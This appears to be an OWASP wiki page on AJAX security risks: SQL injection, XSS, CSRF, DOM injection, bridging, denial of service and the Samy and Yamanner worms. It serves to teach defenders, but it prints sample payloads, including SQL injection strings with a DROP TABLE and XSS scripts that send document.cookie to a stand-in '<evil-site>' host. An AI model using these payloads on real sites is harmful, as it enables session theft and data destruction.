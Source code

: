 ## Introduction

**Asynchronous Javascript and XML (AJAX)** is one of the latest
techniques used by web application developers to provide a user
experience similar to that of a traditional (i.e., "pre-web")
application. Since AJAX is still a new technology, there are many
security issues that have not yet been fully researched. Some of the
security issues in AJAX include:

  - Increased attack surface with many more inputs to secure
  - Exposed internal functions of the application
  - Client access to third-party resources with no built-in security and
    encoding mechanisms
  - Failure to protect authentication information and sessions
  - Blurred line between client-side and server-side code, possibly
    resulting in security mistakes

## Attacks and Vulnerabilities

### XMLHttpRequest Vulnerabilities

AJAX uses the XMLHttpRequest(XHR) object for all communication with a
server-side application, frequently a web service. A client sends a
request to a specific URL on the same server as the original page and
can receive any kind of reply from the server. These replies are often
snippets of HTML, but can also be XML, Javascript Object Notation
([JSON](http://www.json.org)), image data, or anything else that
Javascript can process.

Secondly, in the case of accessing an AJAX page on a non-SSL connection,
the subsequent XMLHttpRequest calls are also not SSL encrypted. Hence,
the login data is traversing the wire in clear text. Using secure
HTTPS/SSL channels, which the modern day browsers support, is the
easiest way to prevent such attacks from happening.

XMLHttpRequest(XHR) objects retrieve the information of all the servers
on the web. This could lead to various other attacks such as SQL
Injection, Cross Site Scripting (XSS), etc.

### Increased Attack Surface

Unlike traditional web applications that execute completely on the
server, AJAX applications extend across the client and server, which
gives the client some power. This throws in additional ways to
potentially inject malicious content.

### SQL Injection

SQL Injection attacks (see [Testing for SQL
Injection](Testing_for_SQL_Injection_\(OWASP-DV-005\) "wikilink")) are
remote attacks on the database in which the attacker modifies SQL
statements before they are processed by the DBMS.
Typical SQL Injection attacks could be as follows (examples refer to
Microsoft SQL Server)
***Example 1***

    SELECT id FROM users WHERE name='' OR 1=1 AND pass='' OR 1=1 LIMIT 1;

This query will always return one row (unless the table is empty), and
it is likely to be the first entry in the table. For many applications,
that entry is the administrative login - the one with the most
privileges.
Note. The code fragment above tries to match userid and password values
(obtained in input) with attributes *name*, *pass* of *users*;
consequently, it appears that *users* is storing passwords in clear
text, a practice which is not recommendable.
***Example 2***

    SELECT id FROM users WHERE name='' AND pass=''; DROP TABLE users;

The above set of SQL statements drops the table *users*, causing a
Denial of Service. This consequence is possible on DBMS allowing
concatenation of multiple statements.

### Cross Site Scripting

[Cross-site Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink") is
a technique by which malicious content is injected in the form of
HTML/JavaScript code. XSS exploits can be used for triggering various
other attacks like cookie theft, account hijacking, phishing, and denial
of service.

The Browser and AJAX Requests look identical, so the server is not able
to classify them. Consequently, it won't be able to discern who made the
request in the background. A JavaScript program can use AJAX to request
a resource that occurs in the background without the user's knowledge.
The browser will automatically add the necessary authentication or
state-keeping information such as cookies to the request. JavaScript
code can then access the response to this hidden request and then send
more requests. This expansion of JavaScript functionality increases the
possible damage of a Cross-Site Scripting attack.

Also, an XSS attack could send requests for specific pages other than
the page the user is currently looking at. This allows the attacker to
actively look for certain content, potentially accessing the data.

The XSS payload can use AJAX requests to autonomously inject itself into
pages and easily re-inject the same host with more XSS (like a virus),
all of which can be done with no hard refresh. Thus, XSS can send
multiple requests using complex HTTP methods to propagate itself
invisibly to the user.

***Examples***

    <script>alert("howdy")</script>
    <script>document.location='http://www.example.com/pag.pl?'%20+document.cookie</script>


*Usage:*

    http://example.com/login.php?variable="><script>document.location='http://<evil-site>/cont.php?'+document.cookie</script>

This will just redirect the page to an unknown and malicious page after
logging into the original page from where the request was made.


### Client Side Injection Threats

  - *XSS exploits* can give access to sensitive client-side data, and
    can also modify client-side code.
  - *DOM Injection* is a type pf XSS injection which happens through the
    sub-objects, document location, document.URL, or document.referrer
    of the Document Object Model(DOM)

<!-- end list -->

    <SCRIPT>
    var pos=document.URL.indexOf("name=")+5;
    document.write(document.URL.substring(pos,document.URL.length));
    </SCRIPT>

  - *JSON/XML/XSLT Injection* - Injection of malicious code in the XML
    content


### AJAX Bridging

For security purposes, AJAX applications can only connect back to the
Website from which they come. For example, JavaScript with AJAX
downloaded from *site1.com* cannot make connections to *site2.com*. To
allow AJAX to contact third-party sites in this manner, the AJAX service
bridge was created. In a bridge, a host provides a Web service that acts
as a proxy to forward traffic between the JavaScript running on the
client and the third-party site. A bridge could be considered a 'Web
service to Web service' connection. An attacker could use this to access
sites with restricted access.

### Cross Site Request Forgery (CSRF)

CSRF (see [Testing for
CSRF](Testing_for_CSRF_\(OWASP-SM-005\) "wikilink")) attacks occur when
an attacker forces a victim’s web browser to send an HTTP request to any
website of his choosing (the intranet is a fair game as well). For
example, while reading this post, the HTML/JavaScript code embedded in
the web page could have forced your browser to make an off-domain
request to your bank, blog, web mail, DSL router, etc. In case such
applications are vulnerable, invisibly, CSRF could have transferred
funds, posted comments, compromised email lists, or reconfigured the
network. A characteristic of CSRF attacks is that the vulnerable
application logs' will show what appear as legitimate entries
originating from the victim, bearing no trace of the attack. This
attack, though not common, has been done before.

### Denial of Service

Denial of Service is an old attack in which an attacker or vulnerable
application forces the user to launch multiple XMLHttpRequests to a
target application against the wishes of the user. In fact, browser
domain restrictions make XMLHttpRequests useless in launching such
attacks on other domains. Simple tricks such as using image tags nested
within a JavaScript loop can do the trick more effectively. AJAX, being
on the client-side, makes the attack easier.

    <IMG SRC="http://example.com/cgi-bin/ouch.cgi?a=b">

### Browser Based Attacks

The security of web browsers depends to a great extent to the fact that
these tools integrate disparate technologies (such as HTML, Javascript,
DNS, to name a few), whose interoperability has often been achieved
without focusing much on its security implications. Furthermore, most of
the security features available in browsers are based on previous
attacks, so our browsers are not prepared for newer attacks.

There have been a number of new attacks on browsers, such as using the
browser to hack into the internal network. The JavaScript first
determines the internal network address of the PC. Then, using standard
JavaScript objects and commands, it starts scanning the local network
for Web servers. These could be computers that serve Web pages, but they
could also include routers, printers, IP phones, and other networked
devices or applications that have a Web interface. The JavaScript
scanner determines whether there is a computer at an IP address by
sending a "ping" using JavaScript "image" objects. It then determines
which servers are running by looking for image files stored in standard
places and analyzing the traffic and error messages it receives back.

Attacks that target Web browser and Web application vulnerabilities are
often conducted by HTTP and, therefore, may bypass filtering mechanisms
in place on the network perimeter. In addition, the widespread
deployment of Web applications and Web browsers gives attackers a large
number of easily exploitable targets. For example, Web browser
vulnerabilities can lead to the exploitation of vulnerabilities in
operating system components and individual applications, which can lead
to the installation of malicious code, including bots.

## Major Attacks

**MySpace Attack**

The Samy and Spaceflash worms both spread on MySpace, changing profiles
on the hugely popular social-networking Web site. In the case of Samy
(see [Technical explanation of The MySpace
Worm](http://namb.la/popular/tech.html)), MySpace input validation
controls prevent the injection of ''

<SCRIPT>

'' tags, however failed to consider all HTML tags, such as *DIV*. The
article is a good example demonstrating how hard it is to perform input
validation (particularly if you try to do it following a *black list*
based approach). AJAX was used to inject a worm into the MySpace profile
of any user viewing infected page and forced any user viewing the
infected page to add the user “Samy” to his friend list. It also
appended the words “Samy is my hero” to the victim's profile

**Yahoo\! Mail Attack**

In June 2006, the Yamanner worm infected Yahoo's mail service. The worm,
using XSS and AJAX, took advantage of a vulnerability in Yahoo Mail's
onload event handling. When an infected email was opened, the worm code
executed its JavaScript, sending a copy of itself to all the Yahoo
contacts of the infected user. The infected email carried a spoofed
'From' address picked randomly from the infected system, which made it
look like an email from a known user.

## References

**Whitepapers**

  - Brian Chess, Yekaterina Tsipenyuk O'Neil, Jacob West, "JavaScript
    Hijacking" -
    <http://www.fortify.com/servlet/downloads/public/JavaScript_Hijacking.pdf>
  - Billy Hoffman, "Ajax(in) Security" -
    <http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Hoffman.pdf>
  - Billy Hoffman, "Analysis of Web Application Worms and Viruses -
    <http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Hoffman_web.pdf>
    ",SPI Labs
  - Billy Hoffman, "Ajax Security Dangers" -
    <http://www.spidynamics.com/assets/documents/AJAXdangers.pdf> ",SPI
    Labs
  - “Ajax: A New Approach to Web Applications”, Adaptive Path -
    <http://www.adaptivepath.com/publications/essays/archives/000385.php>
    Jesse James Garrett
  - <http://en.wikipedia.org/wiki/AJAX> AJAX
  - <http://ajaxpatterns.org> AJAX Patterns
  - Billy Hoffman, "Ajax Security Dangers" -
    <http://rmccurdy.com/scripts/docs/spidynamics/AJAXdangers.pdf> ",SPI
    Labs

[Category:OWASP AJAX Security
Project](Category:OWASP_AJAX_Security_Project "wikilink")